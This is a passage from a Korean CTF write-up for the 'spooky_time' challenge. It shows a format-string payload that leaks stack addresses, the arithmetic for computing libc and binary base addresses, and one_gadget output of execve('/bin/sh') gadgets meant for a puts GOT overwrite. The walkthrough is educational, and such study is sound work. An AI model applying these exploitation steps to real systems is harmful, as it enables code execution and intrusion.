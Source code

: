 
%3$p.%51$p

Seriously?? I bet you can do better than
0x7f120d118a37.0x55c7835853c0
Anyway, here comes another bunch of kids, let's try one more time..
```
```
[3] : 0x7f120d118a37
[51] : 0x55c7835853c0
```
 - 3번째 offset과 51번째 offset 의 주소를 뽑아와서 다시 offset을 구합니다.
```
>>> print(0x7f120d118a37-0x00007f120d004000)
1133111
>>> print(0x55c7835853c0-0x000055c783584000)
5056
```
 - offet이 같은것을 확인할수있습니다. 이로서 저희는 프로그램이 실행중일때 libc_base와 binary_base를 구할수있습니다.
 ```
 libc_base : offset_addr[3] - 1133111
 binary_base : offset_addr[51] - 5056
 ```
 - 이후 exploit을 위한 oneshot gadget & puts got 을 구해야합니다.
 - 두 값을 구하기위해 저희는 base주소를 얻은것입니다.

 - oneshto gadget
```
whoami@choijunwon:~/spooky_time/test/challenge/glibc$ one_gadget libc.so.6
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebd52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebda8 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
